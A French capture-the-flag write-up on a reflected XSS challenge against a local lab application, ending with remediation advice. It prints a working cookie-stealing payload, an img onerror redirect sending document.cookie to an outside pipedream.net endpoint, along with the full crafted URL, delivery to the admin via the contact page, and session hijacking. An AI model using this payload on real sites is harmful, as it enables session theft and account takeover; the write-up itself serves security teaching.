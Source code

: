 # Voler le Cookie Admin - XSS Challenge

## 🎯 Objectif

Se connecter à l'application web en volant le cookie de l'administrateur qui visite les pages via une vulnérabilité XSS.

## 🔍 Découverte

En explorant l'application, nous trouvons une page de recherche avec un paramètre `search` dans l'URL qui semble ne pas être correctement filtré :
```
http://localhost:8000/index.php?search=[INPUT]
```

## 💉 Exploitation

### Première tentative - Test XSS basique
Test de la vulnérabilité avec une simple alerte :
```javascript
http://localhost:8000/index.php?search=<script>alert(1)</script>
```
➜ Succès ! L'alerte s'affiche, confirmant la vulnérabilité XSS.

### Test d'accès aux cookies
Vérifions l'accès aux cookies :
```javascript
http://localhost:8000/index.php?search=<script>alert(document.cookie)</script>
```
➜ Les cookies sont accessibles !

### Solution finale
1. Création d'un endpoint sur RequestBin pour capturer les cookies :
   ```
   https://eoxozs6d4ekomy9.m.pipedream.net/
   ```

2. Construction du payload XSS pour rediriger avec le cookie :
   ```javascript
   <img src=x onerror=window.location='https://eoxozs6d4ekomy9.m.pipedream.net/?cookie='+document.cookie>
   ```

3. URL finale avec le payload (non encodée) :
   ```
   http://localhost:8000/index.php?search=<img src=x onerror=window.location='https://eoxozs6d4ekomy9.m.pipedream.net/?cookie='+document.cookie>
   ```

4. Envoi de l'URL via la page de contact pour que l'administrateur la visite
5. Récupération du cookie admin dans RequestBin
6. Remplacement de notre PHPSESSID par celui de l'admin

## 🎉 Flag
Flag obtenu après avoir remplacé le cookie par celui de l'administrateur !

## 📝 Notes
- La vulnérabilité XSS est présente car les entrées utilisateur ne sont pas correctement filtrées
- L'utilisation de RequestBin simplifie grandement la capture des cookies
- Les cookies de session ne sont pas protégés par le flag HttpOnly

## 🔒 Correction
Pour sécuriser ce type de vulnérabilité :
- Echapper correctement toutes les entrées utilisateur
- Implémenter le flag HttpOnly sur les cookies sensibles
- Utiliser des en-têtes de sécurité comme Content-Security-Policy
- Valider et filtrer les paramètres d'entrée côté serveur
